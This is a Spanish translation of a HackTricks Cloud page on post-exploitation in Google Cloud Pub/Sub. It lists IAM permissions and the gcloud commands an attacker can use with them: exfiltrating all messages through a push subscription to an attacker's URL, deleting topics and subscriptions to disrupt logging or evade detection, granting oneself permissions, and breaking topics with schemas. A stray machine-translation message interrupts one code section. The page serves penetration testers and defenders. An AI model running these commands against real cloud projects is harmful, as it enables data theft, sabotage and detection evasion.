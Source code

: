 # GCP - Explotación Posterior en Pub/Sub

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Pub/Sub

Para más información sobre Pub/Sub, consulta la siguiente página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publica un mensaje en un tema, útil para **enviar datos inesperados** y desencadenar funcionalidades inesperadas o explotar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para evitar que una suscripción reciba mensajes, quizás para evitar la detección.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para evitar que una suscripción reciba mensajes, quizás para evitar la detección.\
Es posible eliminar un tema incluso con suscripciones vinculadas a él.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utiliza este permiso para actualizar alguna configuración del tema para interrumpirlo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Otórgate permiso para realizar cualquiera de los ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtén todos los mensajes en un servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crea una suscripción y úsala para **extraer mensajes**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminar una suscripción** podría ser útil para interrumpir un sistema de procesamiento de registros o algo similar:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

Utiliza este permiso para actualizar algunas configuraciones para que los mensajes se almacenen en un lugar al que puedas acceder (URL, tabla de Big Query, Bucket) o simplemente para interrumpirlo.

### `pubsub.subscriptions.setIamPolicy`

Otórgate los permisos necesarios para realizar cualquiera de los ataques comentados anteriormente.

### `pubsub.schemas.delete`

Elimina un esquema para poder enviar mensajes que no cumplan con el esquema:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Atacar un esquema a un tema para que los mensajes no lo cumplan y, por lo tanto, el tema se vea interrumpido.\
Si no hay esquemas, es posible que necesites crear uno.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
No hay contenido de texto en inglés proporcionado para traducir, solo una etiqueta de cierre de bloque de código de Markdown. Por favor, proporcione el texto en inglés que necesita ser traducido al español.
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

Otórguese los permisos necesarios para realizar cualquiera de los ataques previamente comentados.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Esto creará una instantánea de todos los mensajes no ACKed y los devolverá a la suscripción. No es muy útil para un atacante, pero aquí está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
